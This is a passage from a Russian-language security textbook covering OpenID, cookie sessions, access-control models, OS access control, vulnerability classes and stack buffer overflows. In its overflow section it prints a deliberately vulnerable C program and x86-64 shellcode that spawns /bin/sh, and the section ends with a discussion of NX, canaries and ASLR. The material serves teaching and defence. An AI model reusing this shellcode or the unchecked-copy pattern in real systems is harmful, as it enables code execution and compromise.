        ~~~~~~~~~~~~~~~\text{число}~ g^a \mod p, \\
    \text{5. Сервис} ~\leftarrow~ \text{центр: число}~ g^b \mod p, ~\text{гаммированный} \\
        ~~~~~~~~~~~~~~~\text{ключ}~ K \oplus (g^{ab} \mod p),
\end{array} \]
то аутентификатор содержит $\MAC_K$, проверяемый шагом 10, на выданном ключе $K$\footnote{Более правильным подходом является использование в качестве ключа $K = g^{ab} \mod p$, так как в этом случае ключ создаётся совместно, а не выдаётся центром.}. Имитовставка\index{имитовставка} определяется как описанный ранее $\HMAC$ с хэш-функцией SHA-256.

Если сервис и центр не создают общий ключ (этапы 4, 5 не выполняются), то сервис делает запрос на проверку аутентификатора в шагах 10, 11.

В OpenID аутентификатор состоит из следующих основных полей: имени пользователя, URL сервиса, результата аутентификации в OpenID, одноразовой метки и, возможно, кода аутентификации от полей аутентификатора на секретном ключе $K$, если он был создан на этапах 4, 5. Одноразовая метка является \emph{одноразовым} псевдослучайным идентификатором результата аутентификации, который центр сохраняет в своей БД. По одноразовой метке сервис запрашивает центр о верности результата аутентификации на этапах 10, 11. Одноразовая метка дополнительно защищает от атак воспроизведения.

Можно было бы исключить шаги 4, 5, 10, 11, но тогда сервису бы пришлось реализовывать и хранить в БД использованные одноразовые метки для защиты от атак воспроизведения. Цель OpenID -- предоставить аутентификацию с минимальными издержками на интеграцию. Поэтому в OpenID реализуется модель, в которой сервис все проверки делегирует запросами к центру.

Важно отметить, что в аутентификации через OpenID необходимо использовать TLS-соединения\index{протокол!SSL/TLS} (то есть протокол HTTPS\index{протокол!HTTPS}) на всех взаимодействиях с центром, так как в самом протоколе OpenID не производится аутентификация сервиса и центра, конфиденциальность и целостность не поддерживаются.


\subsection{Вторичная аутентификация по cookie}
\selectlanguage{russian}

Если сервер использует первичную аутентификацию по паролю, который передаётся в виде данных POST-запроса, то осуществлять подобную передачу данных при каждом обращении неудобно. Клиент должен иметь возможность доказать серверу, что он уже прошёл первичную аутентификацию. Должен быть предусмотрен механизм вторичной аутентификации. Для этого используется случайный токен, который уникален для каждого пользователя (обычно -- для каждого сеанса работы пользователя), который сервер передаёт пользователю после первичной аутентификации. Данный токен должен передаваться клиентом на сервис при каждом обращении к страницам, которые относятся к защищённой области сервиса. На практике применяются следующие механизмы для передачи данного токена при каждом запросе:

\begin{itemize}
	\item Первым способом является модификация вывода страницы клиенту, которая добавляет ко всем URL в HTML-коде страницы этот токен. В результате, переходя по ссылкам на HTML-странице (а также заполняя формы и отправляя их на сервер), клиент будет автоматически отправлять токен как часть запроса в URL-адресе страницы:

\texttt{http://tempuri.org/page.html?token=12345.}
	\item Вторым способом является использование механизма cookie (<<куки>>, <<кукиз>>, на русский обычно не переводится, подробнее см.~\cite[Client Identification and Cookies]{Totty:2002}). Данный механизм позволяет серверу передать пользователю некоторую строку, которая будет отправляться на сервер при каждом последующем запросе.
\end{itemize}

Основным механизмом для вторичной аутентификации пользователей в веб-сервисах является механизм cookie, а токены, как часть URL, используются в распределённых системах вроде уже рассмотренной OpenID, так как сервисы, находящиеся в разных доменах, не имеют доступа к общим cookie. Далее рассмотрим подробнее механизм использования cookie.

Когда браузер в первый раз делает HTTP-запрос:
\begin{center} \begin{verbatim}
GET /index.html HTTP/1.1
Host: www.wikipedia.org
Accept: */*
\end{verbatim} \end{center}

В заголовок ответа сервера веб-приложение может добавить заголовок \texttt{Set-Cookie}, который содержит новые значения cookie:
\begin{center} \begin{verbatim}
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: name1=value1; name2=value2; ...

...далее HTML-страница...
\end{verbatim} \end{center}

Браузер, если это разрешено настройками, при последующих запросах к веб-серверу автоматически будет отсылать cookie назад веб-приложению:
\begin{center} \begin{verbatim}
GET /wiki/HTTP_cookie HTTP/1.1
Host: www.wikipedia.org
Cookie: name1=value1; name2=value2; ...
Accept: */*
\end{verbatim} \end{center}

Далее веб-приложение может создать новый cookie, изменить значение старого и~т.\,д. Браузер хранит cookie на устройстве клиента. То есть cookie -- это возможность хранить переменные на устройстве клиента, отсылать сохранённые значения, получать новые переменные. В результате создаётся передача состояний, что даёт возможность не вводить логин и пароль каждый раз при входе в интернет-сервис, использовать несколько окон для одного сеанса работы в интернет-магазине и~т.\,д. При создании cookie может указываться его конечное время действия, после которого браузер удалит устаревший cookie.

Для вторичной аутентификации веб-приложение записывает в cookie токен в виде текстовой строки. В качестве токена можно использовать \emph{псевдослучайную} текстовую строку достаточной длины, созданную веб-приложением. Например:
\begin{center} \begin{verbatim}
Cookie: auth=B35NMVNASUY26MMWNVZ87.
\end{verbatim} \end{center}

В этом случае веб-сервис должен вести журнал выданных токенов пользователям и их сроков действия. Если информационная система небольшого размера (один или десятки серверов), то вместо журнала может использоваться механизм session storage:
\begin{itemize}
	\item При первом заходе на сайт сервер приложений (платформа исполнения веб-приложения) <<назначает>> клиенту сессию, отправляя ему через механизм cookie новый (псевдо) случайный токен сессии, а в памяти сервера выделяя структуру, которая недоступна самому клиенту, но которая соответствует данной конкретной сессии.
	\item При каждом последующем обращении клиент передаёт токен (идентификатор) сессии с помощью механизма cookie. Сервер приложений берёт из памяти соответствующую структуру сессии и передаёт её приложению вместе с параметрами запроса.
	\item В момент прохождения первичной аутентификации приложение добавляет в указанную область памяти ссылку на информацию о пользователе.
	\item При последующих обращениях приложение использует информацию о пользователе, записанную в области памяти сессии клиента.
	\item Сессия автоматически стирается из памяти после прохождения некоторого времени неактивности клиента (что контролируется настройками сервера), либо если приложение явно вызвало функцию инвалидации сессии (\langen{invalidate}).
\end{itemize}

Плюсом использования session storage является то, что этот механизм уже реализован в большинстве платформ для построения веб-приложений (см., например, \cite[Controlling sessions]{Brittain:Darwin:2007}). Его минусом является сложность синхронизации структур сессий в памяти серверов для распределённых информационных систем большого размера.

Вторым способом вторичной аутентификации с использованием cookie является непосредственное включение аутентификационных данных (идентификатор пользователя, срок действия) в cookie вместо случайного токена. К данным в обязательном порядке добавляется имитовставка\index{имитовставка} по ключу, который известен только сервису. С одной стороны, данный подход может значительно увеличить размер передаваемых cookie. С другой -- он облегчает вторичную аутентификацию в распределённых системах, так как промежуточным сервисом хранения факта прошедшей аутентификации является только клиент, а не сервер.

Конечно, беспокоиться об аутентификации в веб-сервисах при использовании обычного HTTP-протокола\index{протокол!HTTP} без зашифрованного SSL-соединения\index{протокол!SSL/TLS} имеет смысл только по отношению к угадыванию токенов аутентификации другими пользователями, которые не имеют доступа к маршрутизаторам и сети, через которые клиент общается с сервисом. Кража компьютера или одного cookie-файла и перехват незащищённого трафика протокола HTTP\index{протокол!HTTP} приводят к доступу в систему под именем взломанного пользователя.



\chapter{Программные уязвимости}

\section[Контроль доступа в информационных системах]{Контроль доступа в \protect\\ информационных системах}
\selectlanguage{russian}

%http://www.acsac.org/2005/papers/Bell.pdf
%http://www.dranger.com/iwsec06_co.pdf
%http://csrc.nist.gov/groups/SNS/rbac/documents/design_implementation/Intro_role_based_access.htm
%http://en.wikipedia.org/wiki/Access_control#Computer_security
%http://en.wikipedia.org/wiki/Discretionary_access_control
%http://en.wikipedia.org/wiki/Mandatory_access_control
%http://en.wikipedia.org/wiki/Role-Based_Access_Control

В информационных системах контроль доступа вводится на \emph{действия} \emph{субъектов} над \emph{объектами}. В операционных системах под субъектами почти всегда понимаются процессы, под объектами -- процессы, разделяемая память, объекты файловой системы, порты ввода-вывода и т.~д., под действием -- чтение (файла или содержимого директории), запись (создание, добавление, изменение, удаление, переименование файла или директории) и исполнение (файла-программы). Система контроля доступа в информационной системе (операционной системе, базе данных и т.~д.) определяет множество субъектов, объектов и действий.

Применение контроля доступа создаётся:

\begin{enumerate}
	\item \emph{аутентификацией} субъектов и объектов,
	\item \emph{авторизацией} допустимости действия,
	\item \emph{аудитом} (проверкой и хранением) ранее совершённых действий.
\end{enumerate}

Различают три основные модели контроля доступа: дискреционная\index{управление доступом!дискреционное} (discretionary access control, DAC), мандатная\index{управление доступом!мандатное} (mandatory access control, MAC) и ролевая\index{управление доступом!ролевое} (role-based access control, RBAC) модели. Современные операционные системы используют \emph{комбинации} двух или трёх моделей доступа, причём решения о доступе принимаются в порядке убывания приоритета: ролевая, мандатная, дискреционная модели.

Системы контроля доступа и защиты информации в операционных системах используются не только для защиты от злоумышленника, но и для повышения устойчивости системы в целом. Однако появление новых механизмов в новых версиях ОС может привести к проблемам совместимости с уже существующим программным обеспечением.

\subsection{Дискреционная модель}

Классическое определение из так называемой Оранжевой книги (Trusted Computer System Evaluation Criteria, устаревший стандарт министерства обороны США 5200.28-STD, 1985 г.~\cite{DOD-5200.28-STD}) следующее: дискреционная модель\index{контроль доступа!дискреционный} -- средства ограничения доступа к объектам, основанные на сущности (identity) субъекта и/или группы, к которой они принадлежат. Субъект, имеющий определённый доступ к объекту, имеет возможность полностью или частично передать право доступа другому субъекту.

На практике дискреционная модель доступа предполагает, что для каждого объекта в системе определён субъект-владелец. Этот субъект может самостоятельно устанавливать необходимые, по его мнению, права доступа к любому из своих объектов для остальных субъектов, в том числе и для себя самого. Логически владелец объекта является владельцем информации, находящейся в этом объекте. При доступе некоторого субъекта к какому-либо объекту система контроля доступа лишь считывает установленные для объекта права доступа и сравнивает их с правами доступа субъекта. Кроме того, предполагается наличие в ОС некоторого выделенного субъекта -- администратора дискреционного управления доступом, который имеет привилегию устанавливать дискреционные права доступа для любых, даже ему не принадлежащих, объектов в системе.

Дискреционную модель реализуют почти все популярные ОС, в частности Windows и Unix. У каждого субъекта (процесса пользователя или системы) и объекта (файла, другого процесса и т.~д.) есть владелец, который может делегировать доступ другим субъектам, изменяя атрибуты на чтение, запись файлов для других пользователей и групп пользователей. Администратор системы имеет возможность назначить нового владельца и другие права доступа к объектам.


\subsection{Мандатная модель}

Классическое определение мандатной модели\index{контроль доступа!мандатный} из Оранжевой книги: средства ограничения доступа к объектам, основанные на важности (секретности) информации, содержащейся в объектах, и обязательная авторизация действий субъектов для доступа к информации с присвоенным уровнем важности. Важность информации определяется уровнем доступа, приписываемым всем объектам и субъектам. Исторически мандатная модель определяла важность информации в виде иерархии, например, совершенно секретно (СС), секретно (С), конфиденциально (К) и рассекречено (Р). При этом верно следующее: СС $\supset$ C $\supset$ K $\supset$ P, то есть каждый уровень включает сам себя и все уровни, находящиеся ниже в иерархии.

Современное определение мандатной модели -- применение явно указанных правил доступа субъектов к объектам, определяемых только администратором системы. Сами субъекты (пользователи) не имеют возможности для изменения прав доступа. Правила доступа описаны матрицей, в которой столбцы соответствуют субъектам, строки -- объектам, а в ячейках содержатся допустимые действия субъекта над объектом. Матрица покрывает всё пространство субъектов и объектов. Также определены правила наследования доступа для новых создаваемых объектов. В мандатной модели матрица может быть изменена только администратором системы.

Модель Белла --- Ла Падулы\index{модель!Белла --- Ла Падулы} (Bell --- LaPadula,~\cite{Bell:LaPadula:1973, Bell:LaPadula:1976}) использует два мандатных и одно дискреционное правила политики безопасности.
\begin{enumerate}
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{чтение} объектов с более \emph{высоким} уровнем секретности (no read-up).
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{запись} объектов с более \emph{низким} уровнем секретности (no write-down).
    \item Использование матрицы доступа субъектов к объектам для описания дискреционного доступа.
\end{enumerate}

\subsection{Ролевая модель}

Ролевая модель доступа основана на определении ролей в системе\index{контроль доступа!ролевой}. Понятие <<роль>> в этой модели~--- это совокупность действий и обязанностей, связанных с определённым видом деятельности. Таким образом, достаточно указать тип доступа к объектам для определённой роли и определить группу субъектов, для которых она действует.
Одна и та же роль может использоваться несколькими различными субъектами (пользователями). В некоторых системах пользователю разрешается выполнять несколько ролей одновременно, в других есть ограничение на одну или несколько не противоречащих друг другу ролей в каждый момент времени.

Ролевая модель, в отличие от дискреционной и мандатной, позволяет реализовать разграничение полномочий пользователей, в частности, на системного администратора и офицера безопасности, что повышает защиту от человеческого фактора.


\section{Контроль доступа в ОС}
\selectlanguage{russian}

\subsection{Windows}
%http://www.gentlesecurity.com/blog/andr/cracking_windows_access_control.pdf
%http://msdn.microsoft.com/en-us/library/bb250462(VS.85).aspx#upm_ovwim
%http://msdn.microsoft.com/en-us/library/bb625963.aspx
%http://msdn.microsoft.com/en-us/library/bb625964.aspx

Операционные системы Windows, вплоть до Windows Vista, использовали только дискреционную модель безопасности. Владелец файла имел возможность изменить права доступа или разрешить доступ другому пользователю.

Начиная с Windows Vista, в дополнение к стандартной дискреционной модели субъекты и объекты стали обладать мандатным уровнем доступа, устанавливаемым администратором (или по умолчанию системой для новых созданных объектов) и имеющим приоритет над стандартным дискреционным доступом, который может менять владелец.

В Vista мандатный уровень доступа предназначен в большей степени для обеспечения \emph{целостности} и устойчивости системы, чем для обеспечения секретности.

Уровень доступа объекта (\langen{integrity level} в терминологии Windows) помечается шестнадцатеричным числом в диапазоне от \texttt{0} до \texttt{0x4000}, большее число означает более высокий уровень доступа. В Vista определены 5 базовых уровней:
\begin{itemize}
    \item ненадёжный (Untrusted, \texttt{0x0000});
    \item низкий (Low Integrity, \texttt{0x1000});
    \item средний (Medium Integrity, \texttt{0x2000});
    \item высокий (High Integrity, \texttt{0x3000});
    \item системный (System Integrity, \texttt{0x4000}).
\end{itemize}

Дополнительно объекты имеют три атрибута, которые, если они установлены, запрещают доступ субъектов с более низким уровнем доступа к ним: cубъекты с более низким уровнем доступа не могут:
\begin{itemize}
    \item читать (\langen{no read-up}),
    \item изменять (\langen{no write-up}),
    \item исполнять (\langen{no execute-up})
\end{itemize}
объекты с более высоким уровнем доступа. Для всех объектов по умолчанию установлен атрибут запрета записи объектов с более высоким уровнем доступа, чем имеет субъект (no write-up).

Субъекты имеют два атрибута:
\begin{itemize}
    \item запрет записи объектов с более высоким уровнем доступа, чем у субъекта (no write-up, эквивалентно аналогичному атрибуту объекта);
    \item установка уровня доступа созданного процесса-потомка как минимума от уровня доступа родительского процесса (субъекта) и исполняемого файла (объекта файловой системы).
\end{itemize}
Оба атрибута установлены по умолчанию.

Все пользовательские данные и процессы по умолчанию имеют средний уровень доступа, а системные файлы -- системный. Например, если в Internet Explorer, который в защищённом (\langen{protected}) режиме запускается с низким уровнем доступа, обнаружится уязвимость, злоумышленник не будет иметь возможности изменить системные данные на диске, даже если браузер запущен администратором.

Уровень доступа процесса соответствует уровню доступа пользователя (процесса), который запустил процесс. Например, пользователи LocalSystem, LocalService, NetworkService получают системный уровень, администраторы -- высокий, обычные пользователи системы -- средний, остальные (\langen{everyone}) -- низкий.

По каким-то причинам, вероятно, для целей совместимости с ранее разработанными программами и/или для упрощения разработки и настройки новых сторонних программ других производителей, субъекты с системным, высоким и средним уровнями доступа создают объекты или владеют объектами со \emph{средним} уровнем доступа. И только субъекты с низким уровнем доступа создают объекты с низким уровнем доступа. Это означает, что системный процесс может владеть файлом или создать файл со средним уровнем доступа, и другой процесс с более низким уровнем доступа, например средним, может получить доступ к файлу, в т.~ч. и на запись. Это нарушает принцип запрета записи в объекты, созданные субъектами с более высоким уровнем доступа.


\subsection{Linux}

Стандартная ОС Unix обеспечивает дискреционную модель контроля доступа на следующей основе.
\begin{itemize}
    \item Каждый субъект (процесс) и объект (файл) имеют владельца, пользователя и группу, которые могут изменять доступ к данному объекту для себя, других пользователей и групп.
    \item Каждый объект (файл) имеет атрибуты доступа на чтение (r), запись (w) и исполнение (x) для трёх типов пользователей: владельца-пользователя (u), владельца-группы (g), остальных пользователей (o) -- (u:rwx, g:rwx, o:rwx).
    \item Субъект может входить в несколько групп.
\end{itemize}

В 2000 г. Агентство Национальной Безопасности США (NSA) выпустило набор изменений SELinux с открытым исходным кодом к ядру ОС Linux версии 2.4. Начиная с версии ядра 2.6, SELinux входит как часть стандартного ядра. SELinux реализует комбинацию ролевой, мандатной и дискреционной моделей контроля доступа, которые могут быть изменены только администратором системы (и/или администратором безопасности). По сути, SELinux приписывает каждому субъекту одну или несколько ролей, и для каждой роли указано, к объектам с какими атрибутами они могут иметь доступ и какого вида.

Основная проблема ролевых систем контроля доступа -- очень большой список описания ролей и атрибутов объектов, что увеличивает сложность системы и приводит к регулярным ошибкам в таблицах описания контроля доступа.


\section{Виды программных уязвимостей}

\textbf{Вирусом} называется самовоспроизводящаяся часть кода (подпрограмма)\index{вирус}, которая встраивается в носители (другие программы) для своего исполнения и распространения. Вирус не может исполняться и передаваться без своего носителя.

\textbf{Червём} называется самовоспроизводящаяся отдельная (под)программа\index{червь}, которая может исполняться и распространяться самостоятельно, не используя программу-носитель.

Первой вехой в изучении компьютерных вирусов можно назвать 1949 год, когда Джон фон Нейман прочёл курс лекций в Университете Иллинойса под названием <<Теория самовоспроизводящихся машин>> (изданы в 1966~\cite{Neumann:1966}, переведены на русский язык издательством <<Мир>> в 1971 году~\cite{Neumann:1971}), в котором ввёл понятие самовоспроизводящихся механических машин. Первым сетевым вирусом считается вирус Creeper 1971 г., распространявшийся в сети ARPANET, предшественнике Интернета. Для его уничтожения был создан первый антивирус Reaper, который находил и уничтожал Creeper.

Первый червь для Интернета, червь Морриса 1988 г., уже использовал \emph{смешанные} атаки\index{атака!смешанная} для заражения UNIX машин~\cite{EichinRochlis:1988, Spafford:1989}. Сначала программа получала доступ к удалённому запуску команд, эксплуатируя уязвимости в сервисах \texttt{sendmail}, \texttt{finger} (с использованием атаки на переполнение буфера) или \texttt{rsh}. Далее с помощью механизма подбора паролей, червь получал доступ к локальным аккаунтам пользователей:
\begin{itemize}
    \item получение доступа к учётным записям с очевидными паролями:
		\begin{itemize}
			\item без пароля вообще;
			\item имя аккаунта в качестве пароля;
			\item имя аккаунта в качестве пароля, повторённое дважды;
			\item использование <<ника>> (\langen{nickname});
			\item фамилия (\langen{last name, family name});
			\item фамилия, записанная задом наперёд;
		\end{itemize}
		\item перебор паролей на основе встроенного словаря из 432 слов;
		\item перебор паролей на основе системного словаря \texttt{/usr/dict/words}.
\end{itemize}

\textbf{Программной уязвимостью}\index{программная уязвимость} называется свойство программы, позволяющее нарушить её работу. Программные уязвимости могут приводить к отказу в обслуживании (Denial of Service, DoS-атака)\index{атака!отказ в обслуживании}, утечке и изменению данных, появлению и распространению вирусов и червей.

Одной из распространённых атак для заражения персональных компьютеров является переполнение буфера в стеке. В интернет-сервисах наиболее распространённой программной уязвимостью в настоящее время является межсайтовый скриптинг (Cross-Site Scripting, XSS-атака)\index{атака!XSS}.

Наиболее распространённые программные уязвимости можно разделить на классы:
\begin{enumerate}
    \item Переполнение буфера -- копирование в буфер данных большего размера, чем длина выделенного буфера. Буфером может быть контейнер текстовой строки, массив, динамически выделяемая память и~т.\,д. Переполнение становится возможным, вследствие либо отсутствия контроля над длиной копируемых данных, либо из-за ошибок в коде. Типичная ошибка -- разница в 1 байт между размерами буфера и данных при сравнении.
    \item Некорректная обработка (парсинг) данных, введённых пользователем, является причиной большинства программных уязвимостей в веб-приложениях. Под обработкой понимаются:
        \begin{enumerate}
            \item проверка на допустимые значения и тип (числовые поля не должны содержать строки и~т.\,д.);
            \item фильтрация и экранирование специальных символов, имеющих значения в скриптовых языках или применяющихся для декодирования из одной текстовой кодировки в другую. Примеры символов: \texttt{\textbackslash}, \texttt{\%}, \texttt{<}, \texttt{>}, \texttt{"}, \texttt{'};
            \item фильтрация ключевых слов языков разметки и скриптов. Примеры: \texttt{script}, \texttt{JavaScript};
            \item декодирование различными кодировками при парсинге. Распространённый способ обхода системы контроля парсинга данных состоит в однократном или множественном последовательном кодировании текстовых данных в шестнадцатеричные кодировки \texttt{\%NN} ASCII и UTF-8. Например, браузер или веб-приложения производят $n$-кратные последовательные декодирования, в то время как система контроля делает $k$-кратное декодирование, $0 \leq k < n$, и, следовательно, пропускает закодированные запрещённые символы и слова.
        \end{enumerate}
    \item Некорректное использование синтаксиса функций. Например, \texttt{printf(s)} может привести к уязвимости записи в указанный адрес памяти. Если злоумышленник вместо обычной текстовой строки введёт в качестве \texttt{s = "текст некоторой длины\%n"}, то функция \texttt{printf()}, ожидающая первым аргументом строку формата \texttt{printf(fmt, \dots)}, обнаружив \texttt{\%n}, возьмёт значения из ячеек памяти, следующих перед текстовой строкой (устройство стека функции описано далее), и запишет в адрес памяти, равный считанному значению, количество выведенных символов на печать функцией \texttt{printf()}.
\end{enumerate}


\section{Переполнение буфера в стеке}
\selectlanguage{russian}

В качестве примера переполнения буфера опишем самую распространённую атаку, направленную на исполнение кода злоумышленника.

В 64-битовой x86-64 архитектуре основное пространство виртуальной памяти процесса из 16-ти эксабайтов ($2^{64}$ байтов) свободно, и только малая часть занята (выделена). Виртуальная память выделяется процессу операционной системой блоками по 4 кБ, называемыми страницами памяти. Выделенные страницы соответствуют страницам физической оперативной памяти или страницам файлов.

Пример выделенной виртуальной памяти процесса представлен в таблице~\ref{tab:virtual-memory}. Локальные переменные функций хранятся в области памяти, называемой стеком.

Приведём пример переполнения буфера в стеке\index{стек}, которое даёт возможность исполнить код для 64-разрядной ОС Linux. Ниже приводится листинг исходной программы, которая печатает расстояние Хэмминга между векторами $b1 = \text{\texttt{0x01234567}}$ и $b2 = \text{\texttt{0x89ABCDEF}}$.

\begin{verbatim}
#include <stdio.h>
#include <string.h>

int hamming_distance(unsigned a1, unsigned a2, char *text,
                     size_t textsize) {
  char buf[32];
  unsigned distance = 0;
  unsigned diff = a1 ^ a2;
  while (diff) {
    if (diff & 1) distance++;
    diff >>= 1;
  }
  memcpy(buf, text, textsize);
  printf("%s: %i\n", buf, distance);
  return distance;
}

int main() {
  char text[68] = "Hamming";
  unsigned b1 = 0x01234567;
  unsigned b2 = 0x89ABCDEF;
  return hamming_distance(b1, b2, text, 8);
}
\end{verbatim}

\begin{table}[!ht]
    \centering
    \caption{Пример структуры виртуальной памяти процесса\label{tab:virtual-memory}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{r|c|}
        \multicolumn{2}{c}{Адрес ~~~~~~~~~~~~~~ Использование} \\
        \cline{2-2}
        \texttt{0x00000000 00000000} & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0040063F} & \multirow{2}{*}{\parbox{6cm}{Исполняемый код, динамические библиотеки}} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0143E010} & \multirow{2}{*}{Динамическая память} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF A425DF26} & \multirow{2}{*}{Переменные среды} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF FFFFEB60} & \multirow{2}{*}{Стек функций} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        \texttt{0xFFFFFFFF FFFFFFFF} & \\
        \cline{2-2}
    \end{tabular} }
\end{table}

Вывод программы при запуске:
\begin{verbatim}
$ ./hamming
Hamming: 8
\end{verbatim}

При вызове вложенных функций вызывающая функция выделяет стековый кадр для вызываемой функции в сторону уменьшения адресов. Стековый кадр в порядке уменьшения адресов состоит из следующих частей:
\begin{enumerate}
    \item Аргументы вызова функции, расположенные в порядке уменьшения адреса (за исключением тех, которые передаются в регистрах процессора).
    \item Сохранённый регистр процессора \texttt{rip} внешней функции, также называемый адресом возврата. Регистр процессора \texttt{rip} содержит адрес следующей инструкции для исполнения. При входе во вложенную функцию адрес инструкции текущей функции запоминается в стеке, в регистре записывается новое значение адреса первой инструкции из вложенной функции, а по завершении функции регистр восстанавливается из стека, и, таким образом, исполнение возвращается назад.
    \item Сохранённый регистр процессора \texttt{rbp} внешней функции. Регистр процессора \texttt{rbp} содержит адрес сохранённого регистра \texttt{rbp} в стековом кадре вызывающей функции. Процессор обращается к локальным переменным функций по смещению относительно регистра \texttt{rbp}. При вызове вложенной функции регистр сохраняется в стеке, в регистр записывается текущее значение адреса стека (\texttt{rsp}), а по завершении функции, регистр восстанавливается.
    \item Локальные переменные, как правило, расположенные в порядке уменьшения адреса при объявлении новой переменной (порядок может быть изменён в результате оптимизаций и использования механизмов защиты, таких как Stack Smashing Protection в компиляторе GCC).
\end{enumerate}

Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены по границе параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе имеется ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполненным буфером, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.95\textwidth]{pic/stack-overflow}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00";                 //   rip=0x7fffffffeac0
  ...
  hamming_distance(b1, b2, text, 68);
  return 0;
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0, 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в котором записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой на то, что предполагаемое значение стека, то есть требуемый адрес \texttt{rip}, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

В результате переполнения буфера в примере по завершении функции \texttt{hamming\_distance()} начнёт исполняться инструкция с адреса строки \texttt{buf}, то есть заданный код.


\subsection{Защита}

Лучший способ защиты от атак переполнения буфера -- создание программного кода со слежением за размером данных и длиной буфера. Однако ошибки всё равно происходят. Существует несколько стандартных способов защиты от исполнения кода в стеке в архитектуре x86 (x86-64).

\begin{enumerate}
	\item Современные 64-разрядные x86-64 процессоры включают поддержку флагов доступа к страницам памяти. В таблице виртуальной памяти, выделенной процессу, каждая страница имеет набор флагов, отвечающих за защиту страниц от некорректных действий программы:
		\begin{itemize}
		\item флаг разрешения доступа из пользовательского режима -- если флаг не установлен, то доступ к данной области памяти возможен только из режима ядра;
		\item флаг запрета записи -- если флаг установлен, то попытка выполнить запись в данную область памяти приведёт к возникновению исключения;
		\item флаг запрета исполнения\index{бит запрета исполнения} (NX-Bit, No eXecute Bit в терминологии AMD; XD-Bit, Execute Disable Bit в терминологии Intel; DEP, Data Execution Prevention -- соответствующая опция защиты в операционных системах) -- если флаг установлен, то при попытке передачи управления на данную область памяти возникнет исключение. Для совместимости со старым программным обеспечением есть возможность отключить использование данного флага на уровне операционной системы целиком или для отдельных программ.
	\end{itemize}
	Попытка выполнить операции, которые запрещены соответствующими настройками виртуальной памяти, вызывает ошибку сегментации (\langen{segmentation fault, segfault}).

    \item Второй стандартный способ -- вставка проверочных символов (\langen{canaries, guards}) после массивов и в конце стека и их проверка перед выходом из функции. Если произошло переполнение буфера, программа аварийно завершится. Данный способ защиты реализован с помощью модификации конечного кода программы во время компиляции\footnote{См. опции \texttt{-fstack-protector} для GCC, \texttt{/GS} для компиляторов от Microsoft и другие.}, его нельзя включить или отключить без перекомпиляции программного обеспечения.

    \item Третий способ -- рандомизация адресного пространства (\langen{address space layout randomization, ASLR}), то есть случайное расположение стека, кода и~т.\,д. В настоящее время используется в большинстве современных операционных систем (Android, iOS, Linux, OpenBSD, macOS, Windows). Это приводит к маловероятному угадыванию адресов и значительно усложняет использование уязвимости.
\end{enumerate}

\subsection{Другие атаки с переполнением буфера}

Почти любую возможность для переполнения буфера в стеке или динамической памяти можно использовать для получения критической ошибки в программе из-за обращения к адресам виртуальной памяти, страницы которых не были выделены процессу. Следовательно, можно проводить атаки отказа в обслуживании (\langen{Denial of Service (DoS) attacks}).

